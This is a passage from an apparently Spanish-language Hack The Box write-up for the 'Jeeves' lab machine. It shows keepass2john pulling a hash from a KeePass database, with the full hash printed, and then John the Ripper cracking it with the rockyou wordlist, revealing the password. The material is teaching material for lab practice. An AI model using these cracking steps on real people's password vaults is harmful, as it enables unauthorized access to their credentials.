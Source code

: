 ![](/assets/images/htb-writeup-jeeves/web16.png)

Como no sabemos la contraseña algo que podemos hacer es usar `keepass2john` 

```bash
❯ keepass2john CEH.kdbx > hash
❯ catn hash
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

Y bueno tenemos la contraseña 

```bash
❯ john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:01:27 DONE (2023-07-02 19:14) 0.01142g/s 628.1p/s 628.1c/s 628.1C/s mwuah..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
